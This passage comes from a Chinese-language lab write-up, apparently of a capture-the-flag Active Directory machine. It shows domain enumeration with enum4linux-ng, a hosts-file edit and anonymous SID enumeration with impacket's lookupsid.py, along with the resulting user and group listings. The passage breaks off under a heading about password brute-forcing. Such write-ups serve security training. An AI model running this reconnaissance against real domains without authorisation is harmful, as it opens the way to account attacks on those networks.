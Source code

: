 所有共享都拒绝匿名访问，需要获取有效凭据。

# 四、域信息枚举

## 4.1 使用enum4linux-ng枚举域信息

```bash
┌──(kali㉿kali)-[/mnt/hgfs/gx/x]
└─$ enum4linux-ng -A 192.168.205.131
...
[+] Long domain name is: SOUPEDECODE.LOCAL
[+] Got domain/workgroup name: SOUPEDECODE
...
NetBIOS computer name: DC01
NetBIOS domain name: SOUPEDECODE
DNS domain: SOUPEDECODE.LOCAL
FQDN: DC01.SOUPEDECODE.LOCAL
...
[+] Server allows authentication via username 'iutprjyw' and password ''
[H] Rerunning enumeration with user 'iutprjyw' might give more results
...
```

获取到域信息：

- 域名：`SOUPEDECODE.LOCAL`
- 域控制器：`DC01.SOUPEDECODE.LOCAL`

## 4.2 添加域名解析

将域名添加到 `/etc/hosts` 文件：

```bash
┌──(kali㉿kali)-[/mnt/hgfs/gx/x]
└─$ sudo nano /etc/hosts

┌──(kali㉿kali)-[/mnt/hgfs/gx/x]
└─$ tail -n 1 /etc/hosts
192.168.205.131 SOUPEDECODE.LOCAL
```

# 五、用户枚举与密码爆破

## 5.1 SID枚举获取用户列表

使用 `lookupsid.py` 枚举域用户：

```bash
┌──(kali㉿kali)-[/mnt/hgfs/gx/x]
└─$ python3 /usr/share/doc/python3-impacket/examples/lookupsid.py anonymous@192.168.205.131
...
[*] Domain SID is: S-1-5-21-2986980474-46765180-2505414164
498: SOUPEDECODE\Enterprise Read-only Domain Controllers (SidTypeGroup)
500: SOUPEDECODE\Administrator (SidTypeUser)
501: SOUPEDECODE\Guest (SidTypeUser)
502: SOUPEDECODE\krbtgt (SidTypeUser)
...
```
